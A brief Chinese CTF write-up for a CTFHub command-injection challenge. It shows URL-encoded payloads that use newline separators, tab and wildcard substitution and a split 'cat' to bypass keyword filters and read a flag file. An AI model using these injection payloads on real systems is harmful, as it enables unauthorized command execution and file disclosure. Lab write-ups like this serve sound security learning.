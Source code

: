 ### * 代替部分关键字绕过

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687cbb6d58cb8da5c8c8741d.png)

查看 flag_is_here 文件夹下的文件

```sh
# %0a - URL 编码的换行符（LF，ASCII 0x0A）
# 在命令行中，换行符可以用于分隔命令，可能用于注入额外命令
# %09 - URL 编码的水平制表符（TAB，ASCII 0x09）
# * 匹配任意字符
127.0.0.1%0als%09*is_here
```

![](https://pic1.imgdb.cn/item/687cbc5058cb8da5c8c8747c.png)

拿到 flag

```sh
127.0.0.1%0acd%09*_is_here%0aca%5ct%09*_100171326731527.php
```

![](https://pic1.imgdb.cn/item/687cbc9058cb8da5c8c8747f.png)